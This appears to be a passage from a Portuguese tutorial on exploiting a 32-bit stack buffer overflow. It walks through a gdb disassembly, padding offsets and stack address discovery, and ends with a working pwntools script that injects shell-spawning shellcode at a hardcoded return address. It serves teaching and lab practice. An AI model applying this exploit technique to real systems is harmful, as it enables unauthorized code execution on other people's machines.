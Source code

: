```text
Dump of assembler code for function main:
   0x08049196 <+0>:     endbr32
   0x0804919a <+4>:     push   ebp
   0x0804919b <+5>:     mov    ebp,esp
   0x0804919d <+7>:     push   ebx
   0x0804919e <+8>:     sub    esp,0x8
   [...]
   0x080491b4 <+30>:    lea    edx,[ebp-0xc]
   [...]
```

Portanto temos 4 bytes do ebp + 4 bytes do ebx + 8 bytes do stack frame, que no caso é só composto pelo nosso buffer, até começarmos a sobreescrever o endereço de retorno. Nosso shellcode será colocado após o endereço de retorno, já que não há espaço no buffer e também porque tem grandes chances de um push do shellcode acabar sobrescrevendo partes do próprio shellcode se colocado antes do endereço de retorno, que será o topo da stack na execução do shellcode.

A próxima coisa que faremos é pegar o endereço da stack, para sabermos onde começará o shellcode.

Podemos dar `break main` no gdb para que a stack esteja num ponto que há apenas o endereço de retorno na stack e assim, o endereço em que colocaremos nosso shellcode será `esp + 4`. Como estamos usando o argumento da main para escrever o shellcode e esse argumento será colocado na stack pois é um argumento de função, se colocarmos um argumento de tamanho diferente de nosso payload final, o endereço que pegarmos da stack não será o mesmo de quando executarmos nosso payload. Por isso, vamos colocar um argumento que simule os 16 bytes de padding, mais 4 do endereço de retorno e mais 44 bytes do nosso shellcode, totalizando 64 bytes.

Podemos usar o `$()` para colocar um comando no lugar do argumento e podemos usar o Python com a flag `-c` para que ele execute o que estiver entre aspas.

```text
break main
run $(python3 -c "print('A' * 64)")
```

Para esse exemplo, o endereço que estará o shellcode será 0xffffd390, mas ele varia de terminal para terminal por causa das variáveis de ambiente que são colocadas antes da stack.

Sairemos do gdb e abriremos o Python 3 para começar nosso exploit. Nosso payload será 16 bytes aleatórios para chegarmos no endereço de retorno, mais 4 bytes do endereço de retorno e depois nosso shellcode.

Escreveremos o seguinte script:

```text
from pwn import *

# Faz o buffer overflow
payload = b'A' * 16              # Padding
payload += p32(0xffffd390)       # Endereço de retorno

# Adiciona o shellcode
context.arch = 'i386'            # Arquitetura i386
context.bits = 32                # 32-bits
payload += asm(shellcraft.sh())  # Concatena o shellcode

# Escreve em um arquivo
f = open('exploit.txt', 'wb')    # Abre um arquivo para escrita
f.write(payload)                 # Escreve o payload nesse arquivo
f.close()                        # Fecha o arquivo
```
